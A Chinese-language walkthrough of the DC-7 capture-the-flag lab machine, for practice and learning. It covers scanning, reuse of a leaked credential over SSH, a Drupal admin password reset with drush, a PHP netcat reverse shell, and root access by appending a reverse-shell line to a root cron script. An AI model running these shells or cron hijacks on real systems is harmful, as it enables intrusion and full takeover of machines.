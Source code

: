 # DC-7

> kali的ip：192.168.56.101

## 主机扫描

```
arp-scan -l
nmap -sP 192.168.56.0/24
netdiscover -i eth0 -r 192.168.56.102/24 -i指定网卡 -r指定网段
```

靶机ip：192.168.56.106

## 端口扫描

```
nmap -A 192.168.56.106
```

开放了80，22端口

## 目录扫描

```
dirsearch -u http://192.168.56.106
```

有robots.txt，看来一下其实也没有什么东西

## 漏洞发现

### 社工发现登录账户

github上搜索Dc7User

查看配置文件，得到账户密码

```
账户名：dc7user
密码：MdR3xOgB7#dW
数据库名：Staff
```

登录不是web后台，那就试试ssh连接，发现可以连接上

```
ssh dc7user@192.168.56.106
```

家目录里有

```
dc7user@dc-7:~$ ls
backups  mbox
```

一个backups文件夹，mbox文件

看一下mbox内容

```
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
```

这有一个脚本文件，猜测可能是定时任务

看一下权限

```bash
dc7user@dc-7:~$ ls -al /opt/scripts/backups.sh
-rwxrwxr-x 1 root www-data 630 Mar  7 16:18 /opt/scripts/backups.sh
```

www-data有读，写，执行的权限

> 这里有个思路:
>
> 得到www-data权限，往backups.sh写shell，当root执行时，就可以返回root的shell

我这里先看一下，当前用户有什么可以利用的点吗

```bash
dc7user@dc-7:~$ find / -type f -perm -4000 2>/dev/null
/bin/su
/bin/ping
/bin/umount
/bin/mount
/usr/sbin/exim4
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
```

还有exim4文件

发现还是4.89版本

```bash
dc7user@dc-7:~$ /usr/sbin/exim4 --version
Exim version 4.89 #2 built 20-Jul-2019 11:32:35
```

继续尝试一下dc8的脚本，发现并不能提权，这里我就不截图了

那我们就继续上面的思路

又找到一个文件夹

```bash
dc7user@dc-7:~$ cd .drush/
dc7user@dc-7:~/.drush$ ls
cache  drush.bashrc  drush.complete.sh  drush.prompt.sh  drushrc.ph
```

好像跟drush相关，百度一下吧

drush是drupal的一个管理工具

**drush 常用命令**

```
drush user-password admin --password="new_pass" 修改密码
drush upwd root --password="" 修改密码
drush user-information admin 查看用户信息
```

尝试查看admin用户信息，失败

进入到web目录，发现密码修改成功

```bash
dc7user@dc-7:~/.drush$ drush user-information admin                                                         Command user-information needs a higher bootstrap level to run - you will need to invoke drush from a more functional Drupal environment to run this command.  [error]      
dc7user@dc-7:~/.drush$ cd /var/www/html                                                                     dc7user@dc-7:/var/www/html$ drush user-information admin                                                     User ID       :  1                                                                                           User name     :  admin                                                                                       User mail     :  admin@example.com                                                                           User roles    :  authenticated                                                                             administrator                                                                                               User status   :  1                                                         
dc7user@dc-7:/var/www/html$ drush upwd admin --password='123456'                                            
Changed password for admin                                   [success]
```

接下来，我们就可以登录网站了

### 登录web后台

发现可以编写网站文章，直接写php代码拿shell就行了，但Drupal 8不支持PHP代码，百度后知道Drupal 8后为了安全，需要将php单独作为一个模块导入

```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```

### 反弹shell

直接写入shell

```
<?php system("nc 192.168.56.101 9001 -e /bin/bash");?>
```

反弹到kali，得到www-data用户

## 提权

再将shell写入backups.sh

```
echo 'nc -e /bin/bash 192.168.56.101 1234' >> backups.sh
```

监听1234端口

之后等待定时任务执行就行

![image-20240307193855462](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240307193855462.png)

## 总结

> drush是Drupal的命令行shell和Unix脚本接口，用于管理drupal网站
>
> 靶机相关知识点:
>
> github社工找源码，crontab的东西

